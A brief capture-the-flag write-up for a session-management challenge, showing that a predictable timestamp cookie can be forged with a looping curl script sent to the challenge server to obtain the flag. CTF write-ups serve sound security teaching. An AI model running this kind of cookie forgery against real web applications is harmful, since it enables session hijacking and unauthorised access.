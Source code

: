 # SPIROS (Session Management)

## Challenge: 

![challenge description-basic](img/session/chall%20desc.png)


## Solution (Timing Attack):
This challenge requires us to generate the current UNIX timestamp, supplying it in the cookie value `Chase=$timestamp`.

With the following script, we are able to obtain the current UNIX timestamp and send it to the webserver as a cookie.

```
#!/bin/bash

while true; do
    timestamp=$(date +%s)
    curl --cookie Chase=$timestamp https://www.spiros.ml/session-id/chase.php
done
```
Running the above script, we were able to obtain the flag! :')

![challenge description-basic](img/session/got%20flag.png)